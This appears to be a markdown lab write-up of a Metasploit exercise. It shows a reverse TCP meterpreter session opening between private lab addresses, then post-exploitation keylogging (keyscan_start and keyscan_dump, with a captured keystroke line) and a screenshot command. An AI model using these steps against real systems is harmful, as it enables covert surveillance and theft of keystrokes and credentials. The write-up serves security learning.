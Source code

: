 
## Victim Executes Payload
- After running the payload, a meterpreter session will be created
```
[*] Started reverse TCP handler on 10.0.2.4:4444 
[*] Sending stage (175686 bytes) to 10.0.2.15
[*] Meterpreter session 1 opened (10.0.2.4:4444 -> 10.0.2.15:49958) at 2025-05-14 13:36:03 -0400
```

---

## Post Exploitation
- Keylogging
```
meterpreter > keyscan_start
meterpreter > keyscan_dump
Dumping captured keystrokes...
<Shift>I am <Shift>Katak <Shift>Bodo, <Shift>PL<^H>lease make me clever
meterpreter > keyscan_stop
```
- Screenshot
```
meterpreter > screenshot
Screenshot saved to: /home/kali/WOmGThKH.jpeg
```

  ![Windows IP](images/WOmGThKH.jpeg)

---